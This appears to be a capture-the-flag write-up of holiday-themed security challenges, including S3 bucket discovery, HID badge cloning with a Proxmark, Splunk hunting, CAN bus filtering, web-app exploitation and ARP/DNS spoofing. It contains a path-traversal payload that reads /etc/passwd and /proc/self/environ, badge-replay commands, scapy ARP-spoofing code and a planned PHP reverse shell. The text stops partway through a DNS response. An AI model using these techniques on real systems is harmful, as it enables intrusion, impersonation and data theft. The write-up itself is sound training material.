





# Objective 1 - Uncover Santa's Gift List
In this challenge, a gift list is presented in an image which has been obfuscated with a swirl image effect. The image needs to be unswirled which will reveal the names and items on the list. This is done is Photopea.


The answer is revealed to be `Proxmark`

# Objective 2 - Investigate S3 Bucket
This challenge is to find an open s3 bucket which has the flag in it, then extract the contents of the flag and submit for the answer. This is done with the tool `bucket_finder.rb`. Extract the flag is done by following the chain of various compression and archiving formats which have wrapped the original flags multiple times.

## Part 1 - S3 Bucket
The initial challenge leads of with some hints in the terminal and seeding the system with `bucket_finder.rb` which will search AWS S3 for open buckets from a specified wordlist. An example wordlist is provided which does not have the match. The crux of this first part is to construct a wordlist. In the motd banner that welcomes the user to the terminal has highlighed in green some clue text. After adding variations to the wordlist, the open s3 bucket was discovered.

### wordlist
```
private-kringlecastle
private-wrapper
private-santa
private-Wrapper3000
private-Wrapper
private-3000
3000-private
kringlecastle-private
wrapper-private
santa-private
Wrapper3000-private
Wrapper-private
3000-private
dev-wrapper-3000
wrapper-dev
ribbon
curling
ribbon-curl
ribbon-curling
package
wrap-package
wrapping-package
package-wrapper
package-wrapping
package-wrap
wrapper-3000
wrapper3000
```

The open bucket was discovered to be `http://s3.amazonaws.com/wrapper3000/package`


## Part 2 - Unwrapping the Flag
The downloaded file is just ascii text as per the output of the `file` command. Looking over the characters, it looks like it might be base64 encoded. This can be verified by piping the output into `base64 -D` (mac) or `base64 -d` (linux). If no errors occur, it was a valid encoding. Doing this, it was seen to be valid base64 encoding of a different file type.

```bash
curl http://s3.amazonaws.com/wrapper3000/package --silent | base64 -D | tee package
```

The new file decoded appears to be zip file, detected via the `file` command or looking at the first 4 magic bytes ascii as .PK. which is zip. Unzipped with:

```bash
unzip package
```

The newly unzipped file is a bzip2 file now, which can be unzipped via tar.
```bash
tar -xjvf package.txt.Z.xz.xxd.tar.bz2
```

The resultant file is now an xxd dump of a file which needs to be re-assembled into it's binary representation as seen below.
```bash
xxd -r tar package.txt.Z.xz.xxd.tar.bz2
```

Now, we are left with an xz archive file which can be decompressed as below.
```bash
xz -d package.txt.Z.xz
```

Finally, the last layer of obfuscation can be removed using the old `uncompress` command.
```bash
uncompress package.txt.Z
```

Which leaves us with the package.txt file which can be `cat`ed out to see the flag:
`North Pole: The Frostiest Place on Earth`

# Objective 3 - Point-of-Sale Password Recovery 
This challenge is about extracting a secret from an electron application which is provided as part of the challenge. This is done by extracting the contents or the executable file provided as part of the challenge. Once done, extracting then the app data which is 7zip zipped. On ce this is unzipped, the source code of the actual app can be inspected and the password can be recovered.
## Enumeration
The file is provided for analysis from the challenge. It is a PE file named `santa-shop.exe`. It can be extracted to see it's contents using p7zip on a mac.
```bash
mkdir santa-shop
cp santa-shop.exe santa-shop/
cd santa-shop.exe
7z x santa-shop.exe
```
The resulting file structure makes it look like the application is an electron contained in the file, `app-64.7z` within the unzipped `$PLUGINS` directory.

```bash
cd \$PLUGINS
7z x app-64.7z
find .
```
## Investigating the Electron App
Now that the app has been decompressed, secrets can be looked for in the application. The electron application is contained within the app.asar file within the resources directory. Stepping through this file via via strings, the password can be discovered.
```bash
strings resources/app.asar | less
```


# Objective 4 - Operate the Santavator 
The santavator requires powering the 3 colors power sources, yellow, red and green via a single stream of elections. Items are acquired by exploring the areas around Santa's castle which can be used to manipulate the stream. Once enough items are acquired, they can be used to manipulate the electron stream in such a way that all 3 sources are powered.
## Solution
The screenshot below shows a way to power all the elements of the Santavator.


# Objective 5 - Open HID Lock
This challenge requires the collection of HID card signatures from the elves around the castle using a Proxmark 3. Once enough HID card signatures have been stolen via the Proxymark, one can be selected with the lowest ID value and thus most likely to be the most permissive. Once doing that, the door opens and the area is revealed.

## Collected Codes
Collected with the following command on the Proxmark 3 when in close proximity of an elf.
```bash
lf hid read
```
Noel Boetie
* #db# TAG ID: 2006e22ee1 (6000) - Format Len: 26 bit - FC: 113 - Card: 6000

Sparkle Redberry
* #db# TAG ID: 2006e22f0d (6022) - Format Len: 26 bit - FC: 113 - Card: 6022

Bow Ninecandle
* #db# TAG ID: 2006e22f0e (6023) - Format Len: 26 bit - FC: 113 - Card: 6023

Holly Evergreen
* #db# TAG ID: 2006e22f10 (6024) - Format Len: 26 bit - FC: 113 - Card: 6024

## Access
Broadcast the stolen HID code with the following command.
```bash
lf hid sim -r 2006e22ee1
```


# Objective 5 - Splunk Challenge
This challenge is to answer a series of questions given a provided Splunk dataset. After completion, an encrypted value holds the flag which needs to be entered to complete the challenge. The password for the encrypted string can be guessed by watching the Splunk talk from this year's Kringelcon.

## Question 1 - Total Unique ATTACk Techniques
Run the specific splunk query to get the list if indexes. Copy and paste the results to a text file and use unix command line tools to process the data to the correct answer.

```splunk
| stats count where index=t* by index
```
Copy and paste these results into rs.txt
```bash
cat rs.txt | awk '{print $2}' | cut -d - -f 1 | sort | uniq | cut -d '.' -f 1 | sort | uniq | wc -l
```
### Answer
13

## Question 2 - Two Indexes for Technique T1059.003
Just read the data from the splunk query results from question 1.
### Answer
t1059.003-main t1059.003-win

## Question 3 - Retrieve Data About Technique for `System Information Discovery`
Need to go through the list of emulate attacks for figure out which one this is. Using [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) to resolve the names.
* T1033 - System Owner/User Discovery
* T1057 - Process Discovery
* T1059.003 - Windows Command Shell
* T1059.005 - Visual Basic
* T1071.001 - Web
* *T1082 - System Information Discovery*

Now, we can search the index.

1. Get a layout of the underlying data structure by selecting all from the index
```splunk
index=t10982-win
```

2. Query the data set for the term `MachineGuid` then look at the command lines which use the registry
```splunk
index=t1082-win MachineGuid |  stats count by cmdline
```

### Answer
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography

## Question 4 - When was the First OSTAP Test Executed
Search for OSTAP in Atomic Red Team, we see it is mentioned in T1105. Searching the index list, we have indexes for 1105 main and win.

1. Get a view of the data in the two indexes with a blank search
```splunk
index=t1105-*
```
The tests must be executed, so looking at the running processes, powershell becomes a likely suspect given MITRE red team tests are involved so simple languages like cmd.exe are not well suited.


2. Refine the Search for only powershell
```splunk
index=t1105-* cmdline powershell 
| sort Time 
|  reverse
```


3. Find Tests
Looking through the results, the 4th event down is a powershell invocation using base64 script body, often times used in powershell bypasses. This seems like a likely candidate. Grab the payload and look at it. Start stepping through the encoded payloads. It starts to become clear invoke-powershell is being used to execute these tests. Therefore, we need to find the actual invocation of the test. Something like Invoke-Atomics T1105

The invocation was discovered shortly after


**Well none of this worked**
Over thought it as per the hints. They maintain an index which is where they want the answer from. The answers determine above however can technically be correct depending on the definition of when the tests are started.

### Answer
2020-11-30T17:44:15Z

## Question 5 - Whats the Process ID of the use of WindowsAudioDevice-Powershell-Cmdlet
First find the index this data is in the same as question 4. Looking at the specified user's github https://github.com/frgnca, there is only one that seems to be likely to be used, `AudioDeviceCmdlets`. Looking at the Atomic Red Team repository, we find T1123 is an audio capture test and it is present as one of the indexes in this test suite. It is likely that this is the test the question is about. 

### Answer
3648

## Question 6 - Whats the Batch File Run via Run Keys
Need to figure out the technique which abuses registry run keys. Continuing the list from question 3.
* T1105 - Ingress Tool Transfer
* T1106 - Native API
* T1123 - Audio Capture
* T1204.002 - Malicious File
* *T1547.001 - Registry Run Keys / Startup Folder*

Start hunting the batch file
```splunk
index=t1547* bat
```

Likely the file we are looking for to refine the query


Well that didn't work. Went about it a different way.

Any batch file included has to be part of the test repo. So, going to the test and looking at the markdown files, looked at each one for the run keys tests. Only found one which used a batch file. Went the patch file and entered the data which was correct.
### Answer
quser

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.001/T1547.001.md#atomic-test-3---powershell-registry-runonce

https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat

## Question 7 - Get the Cert For the Server
The certificate is a recognized field in the splunk data model so it can easily be filtered on for the specific host.


### Answer
55FCEEBB21270D9249E86F4B9DC7AA60

## Final Question
Provided cipher text and the algorithm which needs to be cracked.

Base64 Encoded CT: `7FXjP1lyfKbyDK/MChyf36h7`
Alg: RC4

The RC4 password is included in the end of the Kringlecon 3 talk Adversay Emulation and Automation.

## Answer
The Lollipop Guild


# Objective 7 - Solve the Sleigh's CAN-D-BUS Problem
This challenge revolves around sifting through CAN bus signals on Santa's sleigh and filtering out extraneous ones which are potentially malicious. The challenge requires investigation of each signal to determine its function and after that has been done, filtering out all others.
## Approach
The initial UI has scrolling signals messages with their data payload. The signals format are: `time SIGNAL_ID#SIGNAL_DATA`. The filtering mechanism provides a way to match signals and their payloads. This can be all data, specific data or data greater than or less than the specified value. The console also provides several operational buttons which will modify the signals to control the sleigh.


## Strategy
The overall strategy will be as follows:
1. Identify each signal by isolating every signal until the console is not scrolling
2. Determine each signal's purpose by looping in 1 and testing which control exercises that signal
    * Test the bounds of the signal when applicable
3. Once all signals are identified, remove the unknown signals via the filter

## Results
Testing through, signal was assessed.

### Helm Controls
#### 019 - Steering
This signal has range [-50:50] for left and right respectively. In testing, it shows that the decimal values for the data payloads are signed, 2's compliment for negative value. The data type is 6 bytes long.
#### 080 - Brakes
This signal handles the breaks with a range [0:100]. In testing, the brakes, an additional periodic signal from the brakes as observed which appears to be the opposite the true signal. The true signal was determined by matching the control tunning value to the signal payload value. This value, being the opposite (e.g. if its 10, then the phantom signal is -10), cab be removed by enforcing the bounds of the true value for the signals of the range [0:100]. Therefore, a filter is needed to remove signal values less than 0x00.
#### ??? - Acceleration 
No direct signal as observed for this. It is related to the RPM signal but it does not represent this.
### HUD
#### 244 - RPM HUD
The RPM display is feed by signal 244. Nothing special observed here. It is influenced via the helm controls, most noticeably, the accelerator.
### Controls
#### 02A - Power
Signals for the power controls are easily determined because they are not periodic messages, rather discrete messages. They can be generated by turning the sleigh on and off. In this testing, there was nothing special identified with 
#### 19B - Locks
Signals for the locks, like the power controls are easily determined because the controls trigger discrete events rather then streaming information. In looking, the signals for locking and unlocking of observed however a periodic signal can be seen with data payload 0xF2057. In testing the controls, there was no way to influence this signal. Likely, this is a bad signal and should be removed. A filter is assigned which matches the signal ID 0x19B and payload 0xF2057.
### Unknown Signals
#### 188 - ???
An unknown signal of ID 188 is seen periodically broadcasting the payload value of 0x00. None of the controls where found to assert any influence on the frequency or the value of the signal. It has been flagged as malicious signal and a filter applied for its ID and all values.
## Filter Set 1 - Failure
* 188 - Remove All
* 18B - Remove value 0xF2057
* 080 - Make sure value is > 0x00 and < 0x65

The above filters did not solve the challenge.

## Filter Set 2 - Some Help In Refining - Failure
After this did not work, the signals were all double checked and the results validated. So, the in-game hints were sought out which focused the the light on two specific areas, the brakes and the locks. Having already verified the signals in the noise, it out seem that the unknown signal 188 might not be malicious in nature and should be removed from the filters. This was done, but no success
* 18B - Remove value 0xF2057
* 080 - Make sure value is > 0x00 and < 0x65
## Filter Set 3 - Technically Correct
Rechecked everything again the filter should be correct. Started looking over discord looking for any potential hints about what the issue would be. One such hint was something like `make it as simple as possible`. The 18B signal seemed to be no simpler, so maybe there was something else involved in the brakes signal 080. After retesting, based on the malicious signal being seen, the filer COULD be simplified by only removing negative values. Removing the upper bound filter, the challenge is passed.

So, the second try should have succeeded because it enforced the correct filters. From a security perspective, this is the correct answer. It enforces a whitelist of values for the signals rather than using a blacklist for known bad signals.

# Objective 8 - Broken Tag Generator
The tag generator is a web app where the challenge involves looking for a specific environment variable and obtaining the value. This challenge has multiple ways to solve. In this document, two will be explored. Direct exposure via a directory path traversal allowing local file inclusion vulnerability and via command injection which allows remote code execution.

## Enumeration
Based on the challenge description, it became clear that this would involve web app pentesting. Thus, burp was used in non-intercept mode to enumerate the web app passively while the web app was explored manually. The tool allows the user to upload an image, do some basic editing then host the result. After the enumeration, two endpoints became interesting

```GET /image?id=``` and ```POST /upload```.

Various files were tested uploading to the site and the results were monitored via burp to profile the behavior. Some observations from the initial testing are listed below.

1. Can only upload png files (file extension checking)
2. Uploaded files are renamed and accessed via the `image` endpoint with a seemingly random guid file name
3. Invalid file names reveal the web app source location


## Testing for Directory Traversal
### Upload
The filename parameter is user controllable (along with the contents of the file). Testing to see if directory traversal was possible by using `../` within the filenames however after some testing, it became apparent there is no way to test if this worked. The headers of the webserver indicate nginx however, due to the information disclosure from the error message, the app is known to be ruby which would have a different header usually. Likely, nginx is configured to proxy requests to the ruby webserver running locally. In testing the directory taversal, attempts were made to write output to nginx default locations (e.g. `/var/www/html`...) but were never able to be retrieved.

### Image
The image endpoint takes in the `id` parameter which points to the image file in the format `guid.png`. It is possible, given the id's are ending in `.png` that the function is looking in a directory. Passing on a usual test for directory traversal `../../../../../../etc/passwd` shows that it is susceptible to this vulnerability and is exploitable in the form of a local file inclusion (LFI).


### Exploiting the LFI
The passwd file exfiltration is proof but not helpful in advancing the objectives. The shadow file was attempted which was unsuccessful. Using information from the enumeration stage, the app's main code `app.rb` was attempted to be exfiltrated and was successful. It can be viewed [here](app.rb). 

## Examining the Code
Doing static analysis on the source code, important information and vulnerabilities were discovered. They are listed below.

1. There is a command injection vulnerability in the `/upload` handler in the `filename` parameter. Data constructed from this data is passed to `system` and may be exploitable.
2. `/upload` allows zip file to be uploaded and checks for special characters in filenames, specifically `.` are commented out. Files may be able to be uploaded to arbitrary locations on the filesystem via a directory traversal vulnerability depending on the way the ruby zip library handles relative file names.

## Re-examining the LFI
After reviewing the goals, to disclose a specific environment variable it seemed possible to do this with just and LFI. The `/proc` directory on the filesystem holds all the runtime and environment information for all the running processes including the one the LFI is executing in. Within `/proc` there is a link to the currently running process, `/proc/self` linking to the proper pid. Within each pid folder, there is an environment file, `/proc/self/environ`, which has all the environment variables defined for the running process. The contents of this file can be retrieved to solve the challenge.


The value of the environment variable is `JackFrostWasHere`

## Extra Credit
### Trying RCE
Looking at the command injection vulnerability, it looks that some portion of the input to a `system` call is user controllable. In testing, it was discovered that the portion of the filename starting at the `.` in the file extension. Furthermore, the file extension appears to be checked if it is a `png`. Code analysis shows this constraint is not true, but appeared to be during testing against the production web app based on the responses. Furthermore, code analysis shows the command injection is blind. However, coupled with the LFI, results of commands can be piped to a file and pulled down later.

Testing against the production web app proved difficult to construct and debug an appropriate payload. Thus, using the LFI, copies of the files needed to run the app were pulled down and a test environment was built inside [docker](rce/Dockerfile). This environment instrumented the code to get additional debug information to help build the payload. After much testing, a payload was constructed which would trigger the command injection. using the command `set>jg`, the environment was dumped which would yieled the environment variable described in the goal. This also showed where the file would be generated (`/tmp`).


# Objective 9 - ARP Shenanigans
This challenge required spoofing and end point by launching an ARP poisoning attack, DNS hijacking, and endpoint impersonation to get the victim to download a malicious file and execute malicious code. This challenge can was broken down into stages. Each step required a different attack to advance the overall campaign. The end goal, is to exfiltrate the contents of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on the victim machine.
## Initial Enumeration
Initially enumerating the machine provided, some observations can be made about what how this challenge will unfold.
* apy_res.py
    * Indicates ARP spoofing is likely
* dns_res.py
    * indicates DNS spoofing is likely
* HELP.md
    * Talks about tcdump and tshark
    * Will need/have the ability to packet capture
    * Says we can launch a web browser using the python3 module on port 80
* tcpdump -i eth0
    * See a constant ARP request from a remote host
* Sample packet captures
    * Give a ARP Request / ARP Response pair
    * Give a DNS Request / UDP Response pair

Piecing it together, it seems the campaign will have the following steps
1. Spoof ARP to redirect to 'Us' DNS
2. Spoof DNS request to point to 'Us' HTTP Server
3. Serve out malicious site, probably a reverse web shell (msfvenom -p php/reverse_php)
## ARP Poisoning
This one is pretty straight forward. Just need to reply with an ARP Reply pointing the IP address they are asking for to our MAC address. [This guide](http://www.tcpipguide.com/free/t_ARPMessageFormat.htm) provides a good breakdown on the values and fields for the ARP response. In this, the `is-at` response will will be the attacker (us) MAC address so the victim will believe the IP address they are ARPing for is the attacker (us).

### Incoming Request
```
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

```
### Outgoing Request
--- indicates these fields need to to be changed to this value
```
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
  pdst      = 10.6.6.35 --
```
### Testing
This ARP packet was tested by constructing it via `scapy` and printing it make sure it matched the expected value above.
Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```

These changes have been replicated into [arp_res.py](arp_res.py) python script.
### Results
After poisoning the ARP request/response flow, the victim then issues a DNS request to the poisoned address. This validates the first guess during enumeration that DNS spoofing would be required.

## DNS Spoofing
The next step now that the ARP request/response has been hijacked is to respond to the DNS request with the attacker address. In this case, the DNS response will point to the 'real' IP address of the attacker rather than rely on the ARP cache fo DNS server address which was spoofed earlier.
### DNS Resquest
The DNS request was dumped in a modified version of `dns_res.py` to see fields in `scapy` terms. Interestingly, its going to what might be an FTP site. Which may mean the next stage is an FTP connection on port 21.
```
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None


```
### DNS Response
The ARP and UDP portions of the packets where pretty straight forward to pull from the incoming packet and populate. The DNS response for the most part was just copied from the initial request, the only section being added is the answer field via a `DNSRR`. In this case, the response will want to respond with and `A` record and the `rdata` set to the attacker legitimate IP address. Fun fact, if you pass `type="CNAME"` rather than `A`, the challenge crashes.
```
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 1
           nscount   = 0
           arcount   = 0
